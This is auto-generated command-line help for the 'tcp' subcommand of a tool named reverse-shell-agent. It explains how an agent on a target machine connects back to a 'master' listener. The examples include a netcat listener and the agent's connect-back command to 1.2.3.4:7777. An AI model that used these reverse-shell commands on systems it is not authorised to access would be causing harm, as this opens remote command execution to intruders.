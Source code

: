 ## reverse-shell-agent tcp

Agent that connects to a remove tcp endpoints and listen for commands

### Synopsis

Agent that connects to a remove tcp endpoints and listen for commands

```
reverse-shell-agent tcp [flags]
```

### Examples

```
# On the master (1.2.3.4)
$ master listen --port 7777

# Or with netcat
$ nc -v -l -p 7777

# On the target
$ agent tcp -A 1.2.3.4:7777

```

### Options

```
  -h, --help          help for tcp
      --host string   remote host to connect to (default "0.0.0.0")
      --port int32    remote port to connect to (default 8080)
```

### Options inherited from parent commands

```
  -v, --verbose int   Be verbose on log output
```

### SEE ALSO

* [reverse-shell-agent](reverse-shell-agent.md)	 - Agents listening for remote commands

###### Auto generated by spf13/cobra on 1-May-2018
